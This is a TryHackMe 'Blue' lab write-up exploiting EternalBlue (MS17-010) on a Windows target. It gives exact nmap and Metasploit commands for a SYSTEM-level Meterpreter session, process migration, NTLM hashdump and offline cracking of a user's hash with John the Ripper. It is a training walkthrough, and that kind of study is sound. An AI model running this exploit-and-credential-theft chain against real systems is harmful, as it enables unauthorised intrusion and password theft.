





# TryHackMe: Blue — Writeup

**Category:** Windows Exploitation / Credential Extraction
**Difficulty:** Easy
**Skills Demonstrated:** Vulnerability Scanning, Metasploit Framework Usage, EternalBlue (MS17-010) Exploitation, Post-Exploitation (Process Migration, Hash Extraction), Offline Password Cracking

---

## Objective

Identify and exploit a critical, historically significant Windows SMB vulnerability (MS17-010 / EternalBlue — the same flaw behind the 2017 WannaCry ransomware outbreak) to gain SYSTEM-level access, extract credentials, and recover the plaintext password.

---

## 1. Reconnaissance

Ran a combined service, script, and vulnerability scan:

```bash
nmap -sV -sC --script vuln -oN blue.nmap 10.114.133.11
```



**Key findings:**

| Port | Service |
|------|---------|
| 135/tcp | Microsoft Windows RPC |
| 139/445/tcp | Microsoft Windows SMB (Server 2008 R2 – 2012) |
| 3389/tcp | RDP |

The built-in `smb-vuln-ms17-010` NSE script flagged the target as **VULNERABLE** to a critical remote code execution flaw in SMBv1 — **CVE-2017-0143 (MS17-010)** — with a HIGH risk rating.

---

## 2. Exploitation

### 2.1 Locating the Exploit Module

```
msfconsole
search eternal
```

Identified `exploit/windows/smb/ms17_010_eternalblue` as the primary module for this vulnerability.

### 2.2 Configuring and Running the Exploit

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.113.128.251
set LPORT 4445
run
```



The exploit's built-in vulnerability check confirmed the target was likely vulnerable before firing, then successfully triggered the SMB kernel pool corruption bug — landing a **Meterpreter session running as `NT AUTHORITY\SYSTEM`**, the highest privilege level on Windows, achieved directly through the initial exploit with no separate privilege escalation step required.

### 2.3 Session Stabilization

To harden session stability for the rest of the engagement, upgraded the session and migrated into a more persistent process:

```
use post/multi/manage/shell_to_meterpreter
set session 1
run
```

```
meterpreter > ps
meterpreter > migrate 576
meterpreter > getuid
```

Confirmed `NT AUTHORITY\SYSTEM` persisted after migrating into `spoolsv.exe` (PID 576) — a stable, long-running system process less likely to be killed mid-engagement.

---

## 3. Post-Exploitation: Credential Extraction

### 3.1 Dumping Password Hashes

```
meterpreter > hashdump
```



Recovered NTLM hashes for all local accounts, including a non-default user: **`Jon`**.

### 3.2 Cracking the Hash Offline

Saved the target hash and cracked it using John the Ripper against the `rockyou.txt` wordlist:

```bash
echo "Jon:1002:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > john.hash
john john.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
john john.hash --format=NT --show
```



**Recovered plaintext password for `Jon`** in under 5 seconds — confirming the account used a weak, dictionary-crackable password.

---

## 4. Capturing the Flags

Traversed the filesystem via the Meterpreter session to locate all three flags placed across the machine:

```
meterpreter > cd C:\
meterpreter > ls
meterpreter > cat flag1.txt
```


```
meterpreter > cd Windows\System32\config
meterpreter > cat flag2.txt
```

```
meterpreter > cd C:\Users\Jon\Documents
meterpreter > cat flag3.txt
```



✅ **All three flags captured** — one in the filesystem root, one alongside the SAM/SYSTEM registry hives (a nod to where the hashes physically live), and one in the compromised user's personal directory.

---

## 5. Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| SMBv1 enabled with missing MS17-010 security patch | Allowed unauthenticated remote code execution as SYSTEM |
| No network segmentation / SMB exposed directly | Attack required no prior foothold — fully remote, zero-click compromise |
| Weak local user password (`Jon`) | NTLM hash trivially cracked via wordlist attack in seconds |

---

## 6. Key Takeaways

- **MS17-010 is one of the most consequential vulnerabilities in modern Windows history** — the same exploit chain powered WannaCry and NotPetya, causing billions in global damages. Understanding it hands-on is foundational for any red teamer.
- **Metasploit's built-in vulnerability checks (`check` before `run`) are worth using** — validating exploitability before firing reduces noise and failed attempts in a real engagement.
- **Process migration matters for session stability** — landing in a long-lived system process like `spoolsv.exe` protects against losing access if the original process is killed or the initial payload is unstable.
- **Hash extraction is only half the job** — a hash without cracking has limited direct value; pairing `hashdump` with an offline cracking tool (John + a quality wordlist) turns raw NTLM hashes into usable, reusable credentials.
- Reinforced a wider lesson: **weak local passwords remain exploitable even on a fully patched network** — MS17-010 got the initial access, but the cracked password would have provided an equally valid path via RDP or WinRM had the SMB flaw not existed.

---

*Room: [TryHackMe — Blue](https://tryhackme.com/room/blue)*
